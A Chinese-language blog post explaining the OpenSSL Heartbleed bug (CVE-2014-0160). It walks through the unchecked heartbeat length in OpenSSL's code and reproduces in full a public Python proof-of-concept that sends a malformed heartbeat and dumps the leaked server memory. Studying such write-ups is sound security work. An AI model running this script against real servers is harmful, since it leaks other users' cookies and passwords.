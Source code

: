 文章参考内容来源：
[乌云-关于OpenSSL心脏出血的分析][1]
[github-py][2] （用来学习）    
[Heartbleed 实战：一个影响无数网站的缓冲区溢出漏洞][3]  
[Openssl 漏洞POC学习][4]


好久不冒泡 =w=， 刚好最近互联网界出了件大事，就是openssl的heartbleed，波及范围之广就不用多说了，反正应该是很多人睡不着觉了。=w=我呢，就对这个事件做一次原理的记录。

我们看heartbleed这个名字，搞过网络编程的同学应该都知道心跳包，很常见，是一种用来检测对端是否还存活的手段，防止大量已死的对端还在占用链接，而ssl也是有heartbeat的，ssl的心跳包协议是这个样子：
心跳包类型，1byte
载荷长度，2byte，
载荷内容，最大为2^14
协议还规定，收到心跳包以后将载荷回显，表示还活着，那么我们看ssl的代码：

        hbtype = *p++;
        n2s(p, payload);
        pl = p;

 这段代码的意思： hbyte首先取得心跳包的类型，n2s这个函数是什么意思呢？是将p指向的两个字节，也就是载荷的长度放入payload变量中，并且将p + 2, 指向载荷。

再来看另一段代码(节选)：  

        if (hbtype == TLS1_HB_REQUEST) {
                unsigned char *buffer, *bp;
                int r;

                buffer = OPENSSL_malloc(1 + 2 + payload + padding);
                bp = buffer;

                *bp++ = TLS1_HB_RESPONSE;
                s2n(payload, bp);
                memcpy(bp, pl, payload);
                bp += payload;
        }

如果发来的包是心跳包，那么首先malloc，这里我们看到是65535 这么多个字节，s2n是什么意思呢？就是将payload也就是长度放入bp中。然后拷贝这么多字节到bp，也就是缓冲区当中。

也就是说，可能payload是虚假的，比如我实际心跳包数据只有一个字节，我写一个65535 -100 的数字到payload中，OpenSSL这里是完全不检查实际长度的。那么将近64kb的内存会被泄漏出来，而且这64kb是pl的，在SSLv3记录的附近，一些cookie, 甚至usrname, password都不能幸免。

那么我们来看python脚本攻击的代码， 代码如下，地址文章的最开始有。

    #!/usr/bin/python
    
    # Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
    # The author disclaims copyright to this source code.
    
    import sys
    import struct
    import socket
    import time
    import select
    import re
    from optparse import OptionParser
    
    options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
    options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')
    
    def h2bin(x):
        return x.replace(' ', '').replace('\n', '').decode('hex')
    
    hello = h2bin('''
    16 03 02 00  dc 01 00 00 d8 03 02 53
    43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
    bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
    00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
    00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
    c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
    c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
    c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
    c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
    00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
    03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
    00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
    00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
    00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
    00 0f 00 01 01                                  
    ''')
    
    hb = h2bin(''' 
    18 03 02 00 03
    01 40 00
    ''')
    
    def hexdump(s):
        for b in xrange(0, len(s), 16):
            lin = [c for c in s[b : b + 16]]
            hxdat = ' '.join('%02X' % ord(c) for c in lin)
            pdat = ''.join((c if 32 <= ord(c) <= 126 else '.' )for c in lin)
            print '  %04x: %-48s %s' % (b, hxdat, pdat)
        print
    
    def recvall(s, length, timeout=5):
        endtime = time.time() + timeout
        rdata = ''
        remain = length
        while remain > 0:
            rtime = endtime - time.time() 
            if rtime < 0:
                return None
            r, w, e = select.select([s], [], [], 5)
            if s in r:
                data = s.recv(remain)
                # EOF?
                if not data:
                    return None
                rdata += data
                remain -= len(data)
        return rdata
            
    
    def recvmsg(s):
        hdr = recvall(s, 5)
        if hdr is None:
            print 'Unexpected EOF receiving record header - server closed connection'
            return None, None, None
        typ, ver, ln = struct.unpack('>BHH', hdr)
        pay = recvall(s, ln, 10)
        if pay is None:
            print 'Unexpected EOF receiving record payload - server closed connection'
            return None, None, None
        print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
        return typ, ver, pay
    
    def hit_hb(s):
        s.send(hb)
        while True:
            typ, ver, pay = recvmsg(s)
            if typ is None:
                print 'No heartbeat response received, server likely not vulnerable'
                return False
    
            if typ == 24:
                print 'Received heartbeat response:'
                hexdump(pay)
                if len(pay) > 3:
                    print 'WARNING: server returned more data than it should - server is vulnerable!'
                else:
                    print 'Server processed malformed heartbeat, but did not return any extra data.'
                return True
    
            if typ == 21:
                print 'Received alert:'
                hexdump(pay)
                print 'Server returned error, likely not vulnerable'
                return False
    
    def main():
        opts, args = options.parse_args()
        if len(args) < 1:
            options.print_help()
            return
    
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        print 'Connecting...'
        sys.stdout.flush()
        s.connect((args[0], opts.port))
        print 'Sending Client Hello...'
        sys.stdout.flush()
        s.send(hello)
        print 'Waiting for Server Hello...'
        sys.stdout.flush()
        while True:
            typ, ver, pay = recvmsg(s)
            if typ == None:
                print 'Server closed connection without sending Server Hello.'
                return
            # Look for server hello done message.
            if typ == 22 and ord(pay[0]) == 0x0E:
                break
    
        print 'Sending heartbeat request...'
        sys.stdout.flush()
        s.send(hb)
        hit_hb(s)
    
    if __name__ == '__main__':
        main()

重点在与hb这个包，根据协议，第0位是心跳包的类型，1，2是Openssl的版本类型，3， 4是message的长度， 5位是message的类型，6,7是payload length，可以看到没有实际的payload，那么周围的信息全部会被dump出来，这个就是核心的代码。

这次的事件也算给自己以后写代码提个醒 ，不能太过相信用户。嘛。新一轮的改密码风波来了，我总有预感，这事还没结束。 ^ ^

  [1]: http://drops.wooyun.org/papers/1381
  [2]: https://github.com/musalbas/heartbleed-masstest
  [3]: http://elevencitys.com/?p=7254
  [4]: http://blog.csdn.net/youfuchen/article/details/23279547